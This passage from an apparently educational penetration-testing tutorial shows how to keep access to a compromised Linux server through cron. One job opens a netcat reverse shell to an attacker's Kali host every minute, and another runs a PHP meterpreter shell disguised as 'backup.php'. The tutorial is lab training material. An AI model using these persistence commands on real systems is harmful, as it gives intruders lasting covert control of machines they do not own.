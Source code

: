 1. We can add a cron job on the target system by editing the crontab file, this can be done by running the following command on the target system:

        crontab -e

1. We can now add a new cron job that will execute a netcat command every minute, this can be done by adding the following line to the crontab file:

        * * * * * nc <KALI-IP> <PORT> -e /bin/sh

    As shown in the following screenshot, this cron job will connect to a netcat listener every minute.

    ![crontab line with netcat command](crontab-line-with-netcat-command.png "crontab line with netcat command")

1. After adding the cron job, you will need to save the file.

1. We can now set up our netcat listener by running the following command on Kali:

        nc -nvlp <PORT>

    After one minute, the cron job will be executed and you should receive a reverse shell on your netcat listener as shown in the following screenshot.

    ![netcat listener receiving crontab netcat connection](netcat-listener-receiving-crontab-netcat-connection.png "netcat listener receiving crontab netcat connection")

1. Alternatively, instead of using netcat to obtain a reverse shell, we can create a cron job that executes the PHP meterpreter shell we created and uploaded in the previous section. This can be done by adding the following line to the crontab file:

        * * * * * php -f /var/www/html/backup.php

    As shown in the following screenshot, after one minute you should receive a meterpreter session.

    ![Meterpreter session after backup.php exploit executed from crontab](meterpreter-session-after-backup-php-exploit-executed-from-crontab.png "Meterpreter session after backup.php exploit executed from crontab")

    We have now been able to successfully setup persistence on the target server by creating a cron job that connects back to our listener, additionally, we were also able to setup a cron job that executes the PHP meterpreter shell we uploaded to the target server.
